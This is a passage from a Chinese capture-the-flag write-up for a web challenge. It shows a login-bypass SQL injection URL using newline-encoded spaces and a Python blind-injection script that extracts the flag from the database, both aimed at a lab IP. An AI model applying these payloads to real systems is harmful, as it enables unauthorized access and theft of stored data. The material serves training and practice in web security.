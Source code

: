 这样是可以进去的

```
http://220.249.52.134:57170/zhuanxvlogin?user.name=admin%27%0Aor%0A%271%27%3E%270%27%0Aor%0Aname%0Alike%0A%27admin&user.password=1
```

![img](https://img2018.cnblogs.com/blog/1532807/201909/1532807-20190914193433832-1810507055.png)

登陆进去了，但是没啥用，flag是在数据库里面

接下来可以写一个盲注脚本,附大佬脚本

```python
import requests
s=requests.session()

flag=''
for i in range(1,50):
    p=''
    for j in range(1,255):
  		payload="(select%0Aascii(substr(id,"+str(i)+",1))%0Afrom%0AFlag%0Awhere%0Aid<2)<'"+str(j)+"'"
  		url="http://220.249.52.134:57170/zhuanxvlogin?user.name=admin'%0Aor%0A"+payload+"%0Aor%0Aname%0Alike%0A'admin&user.password=1"
  		r1=s.get(url)
  		if len(r1.text)>20000 and p!='':
  			flag+=p
  			print(i,flag)
  			break
  		p=chr(j)
```

























# pwn_获取权限

## 新手练习区



